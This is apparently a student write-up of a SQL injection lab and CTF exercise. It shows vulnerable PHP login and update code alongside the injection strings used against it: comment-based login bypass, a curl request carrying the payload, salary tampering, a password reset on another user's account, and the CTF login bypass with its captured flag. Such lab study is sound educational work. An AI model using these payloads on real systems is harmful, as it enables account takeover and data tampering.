

# SQL Injection

### Preparation

For this Lab we will be using 2 docker containers:

* One to host our web application
* One to host the database used by said application

Then we mapped the container's IP address to the URL of the web application by adding this line to the /etc/hosts file

```
10.9.0.5 www.seed-server.com
```

### The Web application

the web application, we'll be using has 2 types of users with different privilleges:

* Employee : can only manage their own profile information
* Administrator : can manage every employee's profile information


## Task 1: Get Familiar with SQL statements

After running dcbuild and dcup to get the docker containers running, we have access to the database created in the container 4a12f793dd50.


And are able to query the database as such:


## Task 2: SQL Injection Attack On Select Statement

For this task our goal is to login into an employee account abusing the sql injection vulnerability on the website www.seed-server.com.

This page uses this snippet of code to authenticate users:

```php
$input_uname = $_GET[’username’];
$input_pwd = $_GET[’Password’];
$hashed_pwd = sha1($input_pwd);
...
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
$result = $conn -> query($sql);

// The following is Pseudo Code

if(id != NULL) {
if(name==’admin’) {
return All employees information;
} else if (name !=NULL){
return employee information;
}
} else {
Authentication Fails;
}

```

### Task 2.1: SQL Injection from webpage

For this task we need to login into the admin account without knowing their password.
We're assuming the username to be Admin.

Since the $input_uname user input is not handled properly, all there is to do is put a start comment line character after writing the username, this will comment the part of the query that would require a password to enter the account and therefore allowing us to access the admin account without the password

``` SQL
Admin' -- 
```


### Task 2.2: SQL Injection from control Line

For this task, we followed the same logic we used on Task 2.1. However, instead of writing the sql injection in the login form present in the web application we used the curl command to send the equivalent http request

``` 
curl 'www.seed-server.com/unsafe_home.php?username=admin%27%20--%20'

```


### Task 2.3: Append a new SQL statement

Since the php code is only expecting a query, it will run the sql code until it finds a ';' therefore making it impossible to append multiple SQL statements.


## Task 3

```php
$hashed_pwd = sha1($input_pwd);
$sql = "UPDATE credential SET
nickname=’$input_nickname’,
email=’$input_email’,
address=’$input_address’,
Password=’$hashed_pwd’,
PhoneNumber=’$input_phonenumber’
WHERE ID=$id;";
$conn->query($sql);
```

### Task 3.1 Change your own salary

For this task we want to change our own salary after being logged in.

All we need to do is introduce the salary = 999999 in the update statement, which we can do by closing the single quote after the nickname and adding an extra parameter to the update statement.

If we use the nickname input field to do that what we want to achieve is something like this nickname='**Alice',salary='10**', email= ...

We could also use  --  and comment the rest of the update statement, but that would change the salary of every employee in the enterprise, since it would ignore the ID = $id constraint.

Input:

```
Alice',salary='10
```


### Task 3.2 Change the boss's salary

This task is pretty much the same as the last one however for this one we will have to comment the rest of the update statement after adding the clause to make sure we're only reducing the salary of our boss.

Input:

```
Alice', salary=1 where Name='Admin' -- 
```


### Task 3.3 

This task follows the pattern of the last 2 however, this time we need to encode the password of our choice, beforehand.

Input:
```
Alice', password=sha1('FSI') where Name = 'Boby' -- 
```


## CTF

In the port 5003 of the ctf.fsi.fe.up.pt server we found a login form to access a website. We were also given the source code of the login query, which is as follows:

``` php
            if (!empty($_POST)) {

               require_once 'config.php';

               $username = $_POST['username'];
               $password = $_POST['password'];
               
               $query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
                                     
               if ($result = $conn->query($query)) {
                                  
                  while ($data = $result->fetchArray(SQLITE3_ASSOC)) {
                    $_SESSION['username'] = $data['username'];
           
                    echo "<p>You have been logged in as {$_SESSION['username']}</p><code>";
                    include "/flag.txt";
                    echo "</code>";

                 }
               } else {            
                   // falhou o login
                   echo "<p>Invalid username or password <a href=\"index.php\">Tente novamente</a></p>";
               }
            }
```

Firstly we noted that to obtain the flag we only needed to login.

We also realized the login query is vulnerable to SQL Injection since it does not use prepared statements, allowing us to alter the query with our input.


From the original query,

```php 
$query = "SELECT username 
          FROM user 
          WHERE username = '".$username."' AND password = '".$password."'";
```

Our objective is to transform into this:

```sql 
SELECT username
FROM user 
Where username = 'admin' -- AND password = '';
```
If we can change the query like so, sql will ignore the password validation, logging in directly into the admin account.

The input we used
* Login: admin' -- 
* Password: random




flag{43d5fdd90c81bd55437f26db9b33c1e4} 